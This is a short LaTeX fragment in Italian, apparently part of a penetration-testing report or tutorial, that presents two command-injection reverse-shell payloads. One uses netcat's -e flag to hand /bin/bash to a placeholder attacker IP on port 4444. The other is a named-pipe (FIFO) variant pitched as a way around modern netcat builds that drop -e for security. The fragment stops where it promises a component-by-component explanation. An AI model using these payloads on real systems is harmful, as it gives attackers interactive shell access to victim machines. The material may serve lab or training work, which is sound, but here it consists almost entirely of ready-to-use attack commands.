 \documentclass[12pt,a4paper]{report}
\begin{document}
	\subsubsection{Opzione 1: Netcat con flag -e (Iniezione Diretta)}
	Se la macchina vittima dispone di una versione classica o non protetta di Netcat, è possibile reindirizzare la shell direttamente specificando l'eseguibile tramite il flag \texttt{-e}:
	\begin{lstlisting}[backgroundcolor=\color{codegray}, basicstyle=\ttfamily\small, breaklines=true]
		; nc <IP_ATTACCANTE> 4444 -e /bin/bash
	\end{lstlisting}
	
	\subsubsection{Opzione 2: Named Pipe FIFO (Bypass per Netcat Moderni/Protetti)}
	Nelle distribuzioni Linux moderne, la versione standard di Netcat viene compilata senza il supporto al flag \texttt{-e} per motivi di sicurezza. Per superare questa mitigazione, si utilizza un payload avanzato basato su una \textbf{Named Pipe (FIFO)}, che permette di ridirigere i flussi di input e output creando un ciclo continuo:
	
	\begin{lstlisting}[backgroundcolor=\color{codegray}, basicstyle=\ttfamily\small, breaklines=true]
		; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP_ATTACCANTE> 4444 >/tmp/f
	\end{lstlisting}
	
	Di seguito viene analizzato il funzionamento dettagliato del comando, componente per componente:
	
\end{document}
